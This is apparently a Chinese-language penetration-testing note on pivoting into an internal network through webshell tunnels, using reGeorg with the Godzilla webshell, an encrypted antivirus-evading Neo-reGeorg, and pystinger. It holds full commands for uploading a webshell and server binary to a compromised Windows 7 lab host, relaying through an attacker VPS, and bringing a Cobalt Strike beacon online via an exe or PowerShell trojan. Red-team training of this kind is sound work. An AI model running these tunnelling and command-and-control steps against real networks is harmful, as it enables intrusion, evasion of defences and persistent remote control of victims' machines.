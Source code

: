 需要python2<br />可以和哥斯拉打配合，实现无文件落地<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616321250392-ed063404-7bb8-4527-be01-d32947f5eb8b.png#align=left&display=inline&height=239&originHeight=478&originWidth=676&size=12374&status=done&style=none&width=338)<br />python reGeorgSocksProxy.py -l 0.0.0.0 -p 4444 -u [http://192.168.201.132/re.ico](http://192.168.201.132/re.ico) -r 1024

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616321192832-85108ac2-6e5f-482d-8e00-781b233f8d36.png#align=left&display=inline&height=333&originHeight=666&originWidth=1637&size=204710&status=done&style=none&width=818.5)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616321352615-b21a5a13-5e43-49b6-b9f7-c1802c90927d.png#align=left&display=inline&height=308&originHeight=308&originWidth=554&size=15521&status=done&style=none&width=554)
<a name="Uhz4i"></a>
## Neo-reGeorg (好用，加密的reGeorg)(免杀)
生成加密后的代理脚本。python3就可以<br />python .\neoreg.py generate -k aufeng123<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616247340637-cee339c6-1ac9-4de0-8b89-dbafb14ef5c5.png#align=left&display=inline&height=350&originHeight=699&originWidth=928&size=37628&status=done&style=none&width=464)

python3 neoreg.py -k aufeng123 -u [http://192.168.201.132/aufeng.jsp](http://192.168.201.132/aufeng.jsp) -k aufeng123 -l 0.0.0.0 -p 65534<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616247737230-5f22e2d8-2211-4c71-a5fa-64e24bcc9c81.png#align=left&display=inline&height=332&originHeight=664&originWidth=1209&size=33715&status=done&style=none&width=604.5)<br />挂上proxifier之后。<br />直接访问内网<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616247871083-9ef9ff7d-2eff-4d24-9263-2d86c7ba85a8.png#align=left&display=inline&height=336&originHeight=671&originWidth=754&size=32123&status=done&style=none&width=377)

<a name="mifRy"></a>
## 毒刺pystinger 不出网
[https://github.com/FunnyWolf/pystinger](https://github.com/FunnyWolf/pystinger)

<a name="VSfvK"></a>
### 上线cs

Kali作vps 192.168.201.129  win7:192.168.201.132<br />目前拿下win7 shell<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1619527568799-fe0f392c-1322-4b22-913b-7438c508fe16.png#align=left&display=inline&height=157&originHeight=209&originWidth=429&size=46914&status=done&style=none&width=322)<br />上传对应的Pystinger webshell文件并成功访问<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1619527588605-4065be5d-7387-4105-aaa8-1b6e5c1df659.png#align=left&display=inline&height=126&originHeight=168&originWidth=679&size=38985&status=done&style=none&width=509)<br />然后将 stinger_server.exe上传到目标服务器 ，执行如下命令：<br />start stinger_server.exe 0.0.0.0<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1619527606433-b74395f4-1271-4d2f-90e7-f96ff0e4d987.png#align=left&display=inline&height=373&originHeight=497&originWidth=619&size=146408&status=done&style=none&width=464)<br />然后将stinger_client上传到vps，执行如下命令<br />./stinger_client -w [http://192.168.201.132/proxy.php](http://192.168.201.132/proxy.php) -l 0.0.0.0 -p 60000<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1619527636876-38584db2-700d-4416-a69c-a0b2f4d23d40.png#align=left&display=inline&height=300&originHeight=400&originWidth=711&size=393282&status=done&style=none&width=533)<br />cs设置本地的监听地址和60020端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1619527679388-46cc3ac8-c364-4347-85c8-942ddc6f1071.png#align=left&display=inline&height=246&originHeight=328&originWidth=533&size=59253&status=done&style=none&width=400)<br />然后发送exe或者powershell木马上线都可以，成功上线，可以看到我们的vps可以看到有数据交互<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1619527708236-c8dc7735-c32f-4504-a0b2-e45ad7d36da2.png#align=left&display=inline&height=311&originHeight=415&originWidth=1010&size=442029&status=done&style=none&width=758)
<a name="8uB0H"></a>
### 代理
root@kali:~# ./stinger_client -w [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) -l 127.0.0.1 -p 60000 
